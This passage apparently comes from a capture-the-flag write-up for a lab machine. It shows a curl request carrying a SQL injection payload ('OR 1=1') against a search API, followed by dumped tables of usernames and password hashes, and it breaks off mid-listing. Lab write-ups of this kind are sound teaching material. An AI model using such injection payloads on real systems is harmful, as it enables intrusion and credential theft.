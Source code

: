 Nice!

How about `creatures` table?

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Minotaur's_Labyrinth]
└─# curl -X POST http://$RHOSTS/api/creatures/search -d "nameCreature=' OR 1=1-- -"
		
		[[{"idCreature":"1","nameCreature":"Cerberos","passwordCreature":"3898e56bf6fa6ddfc3c0977c514a65a8"},{"idCreature":"2","nameCreature":"Pegasus","passwordCreature":"5d20441c392b68c61592b2159990abfe"},{"idCreature":"3","nameCreature":"Chiron","passwordCreature":"f847149233ae29ec0e1fcf052930c044"},{"idCreature":"4","nameCreature":"Centaurus","passwordCreature":"ea5540126c33fe653bf56e7a686b1770"}]]
```

**Table `people`:**
```json
[
    {
        "idPeople": "1",
        "namePeople": "Eurycliedes",
        "passwordPeople": "42354020b68c7ed28dcdeabd5a2baf8e"
    },
    {
        "idPeople": "2",
        "namePeople": "Menekrates",
        "passwordPeople": "0b3bebe266a81fbfaa79db1604c4e67f"
    },
    {
        "idPeople": "3",
        "namePeople": "Philostratos",
        "passwordPeople": "b83f966a6f5a9cff9c6e1c52b0aa635b"
    },
    {
        "idPeople": "4",
        "namePeople": "Daedalus",
        "passwordPeople": "b8e4c23686a3a12476ad7779e35f5eb6"
    },
    {
        "idPeople": "5",
        "namePeople": "M!n0taur",
        "passwordPeople": "1765db9457f496a39859209ee81fbda4"
    }
]
```

**Table `creatures`:**
```json
[
    [
        {
            "idCreature": "1",
            "nameCreature": "Cerberos",
            "passwordCreature": "3898e56bf6fa6ddfc3c0977c514a65a8"
        },
        {
            "idCreature": "2",
            "nameCreature": "Pegasus",
            "passwordCreature": "5d20441c392b68c61592b2159990abfe"
        },
        {
            "idCreature": "3",
            "nameCreature": "Chiron",
            "passwordCreature": "f847149233ae29ec0e1fcf052930c044"
        },
        {
```